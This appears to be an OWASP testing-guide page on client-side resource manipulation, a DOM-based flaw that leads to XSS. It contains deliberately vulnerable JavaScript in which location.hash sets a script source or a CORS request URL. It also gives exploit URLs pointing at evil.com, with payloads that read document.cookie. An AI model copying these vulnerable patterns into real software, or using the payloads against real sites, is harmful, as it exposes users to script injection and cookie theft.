 Summary
-------

A Client Side Resource Manipulation vulnerability is an input validation flaw that occurs when an application accepts an user controlled input which specifies the path of a resource (for example the source of an iframe, js, applet or the handler of an XMLHttpRequest). Specifically, such a vulnerability consists in the ability to control the URLs which link to some resources present in a web page. The impact may vary on the basis of the type of the element whose URL is controlled by the attacker, and it is usually adopted to conduct Cross-Site Scripting attacks.

How to Test
-----------

Such a vulnerability occurs when the application employs user controlled URLs for referencing external/internal resources. In these circumstances it is possible to interfere with the expected application's behavior in the sense of making it load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the “location.hash” (source) which reaches the attribute “src” of a script element. This particular obviously leads XSS since an external JavaScript could be easily injected in the trusted web site.

    <script> 
      var d=document.createElement("script"); 
      if(location.hash.slice(1)) 
         d.src = location.hash.slice(1); 
      document.body.appendChild(d); 
    </script>

Specifically the attacker could target the victim by asking her to visit the following URL:

`www.victim.com/#http://evil.com/js.js`

Where js.js contains:

    alert(document.cookie)

Controlling scripts' sources is a basic example, since some other interesting and more subtle cases can take place. A widespread scenario involves the possibility to control the URL called in a CORS request; since CORS allows the target resource to be accessible by the requesting domain through a header based approach, then the attacker may ask the target page to load malicious content loaded on its own web site.

Refer to the following vulnerable code:

    <b id="p"></b> 
    <script> 
     function createCORSRequest(method, url) { 
      var xhr = new XMLHttpRequest(); 
      xhr.open(method, url, true); 
      xhr.onreadystatechange = function () { 
       if (this.status == 200 && this.readyState == 4) { 
         document.getElementById('p').innerHTML = this.responseText; 
       } 
      }; 
      return xhr; 
     } 

     var xhr = createCORSRequest('GET', location.hash.slice(1)); 
     xhr.send(null); 
    </script>

The “location.hash” is controlled by the attacker and it is used for requesting an external resource, which will be reflected through the construct “innerHTML”. Basically the attacker could ask the victim to visit the following URL and at the same time he could craft the payload handler.

Exploit URL: www.victim.com/\#http://evil.com/html.html

    http://evil.com/html.html
    ----
    <?php 
    header('Access-Control-Allow-Origin: http://www.victim.com'); 
    ?>
    <script>alert(document.cookie);</script>

### Black Box testing

Black box testing for Client Side Resource Manipulation is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed.

### Gray Box testing

**Testing for Client Side Resource Manipulation vulnerabilities:**\
To manually check for this type of vulnerability we have to identify whether the application employs inputs without correctly validating them; these are under the control of the user which could be able to specify the url of some resources. Since there are many resources that could be included into the application (for example images, video, object, css, frames etc.), client side scripts which handle the associated URLs should be investigated for potential issues.

The following table shows the possible injection points (sink) that should be checked:

  Resource Type   Tag/Method                                Sink
  --------------- ----------------------------------------- ------
  Frame           iframe                                    src
  Link            a                                         href
  AJAX Request    xhr.open(method, <i>\[url\]</i>, true);   URL
  CSS             link                                      href
  Image           img                                       src
  Object          object                                    data
  Script          script                                    src

The most interesting ones are those that allow to an attacker to include client side code (for example JavaScript) since it could lead to an XSS vulnerabilities.\

When trying to check for this kind of issues, consider that some characters are treated differently by different browsers. Moreover always consider the possibility to try absolute URLs variants as described here: <http://kotowicz.net/absolute/>

Tools
-----

-   DOMinator - <https://dominator.mindedsecurity.com/>

References
----------

**OWASP Resources**

-   [DOM based XSS Prevention Cheat Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
-   DOMXSS.com - <http://www.domxss.com>
-   DOMXSS TestCase - <http://www.domxss.com/domxss/01_Basics/04_script_src.html>

**Whitepapers**

-   DOM XSS Wiki - https://code.google.com/p/domxsswiki/wiki/LocationSources
-   Krzysztof Kotowicz: “Local or External? Weird URL formats on the loose” - <http://kotowicz.net/absolute/>

